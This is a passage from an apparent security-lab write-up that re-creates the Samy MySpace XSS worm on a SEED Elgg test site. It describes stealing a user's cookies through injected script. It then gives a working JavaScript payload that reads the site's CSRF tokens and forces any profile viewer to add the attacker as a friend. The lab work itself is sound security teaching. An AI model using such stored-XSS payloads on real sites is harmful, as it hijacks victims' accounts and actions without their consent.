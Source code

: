 After entering on her profile and executing the malicious code, we received a GET request on our server, exposing Boby's cookies:

![Exposed Boby Cookies](images/lab5/lab5_07.png)

## Task 4

On this task we are beginning to simulate the known Samy XSS Worm attack performed on MySpace in 2005. One of the worm's effects was to add the victim as a Samy's friend; however to achieve this we must understand what is the HTTP request responsible for this feature.

Using the HTTP Header Live Firefox add-on, we identified the request:

```
GET http://www.seed-server.com/action/friends/add?friend=..&__elgg_ts=...&__elgg_token=..."
```

Knowing the HTTP request structure, we can exploit this vulnerability with the following malicious code:

```html
<script type="text/javascript">
  window.onload = function () {
    var Ajax = null;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

    //Construct the HTTP request to add Samy as a friend.
    var sendurl =
      "http://www.seed-server.com/action/friends/add?friend=59" + ts + token;

    //Create and send Ajax request to add friend
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
  };
</script>
```